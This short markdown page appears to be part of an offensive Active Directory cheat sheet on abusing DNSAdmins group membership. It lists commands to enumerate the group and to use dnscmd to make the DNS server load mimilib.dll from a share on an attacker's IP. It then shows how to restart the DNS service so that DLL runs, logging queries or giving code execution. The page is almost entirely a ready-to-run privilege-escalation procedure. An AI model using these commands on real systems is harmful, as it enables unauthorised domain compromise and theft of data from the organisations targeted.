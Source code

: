 # 🟢 DNS Admins

### **Enumerate member of the DNS admin group**

```
Get-NetGRoupMember “DNSAdmins”
```

### **From the privilege of DNSAdmins group member, configue DDL using dnscmd.exe (needs RSAT DNS)**

Share the directory the DLL is in for everyone so it's accessible. logs all DNS queries on C:\Windows\System32\kiwidns.log

```
Dnscmd <dns server> /config /serverlevelplugindll \\<ip>\dll\mimilib.dll
```

**Restart DNS**

```
Sc \\<dns server> stop dns
Sc \\<dns server> start dns
```
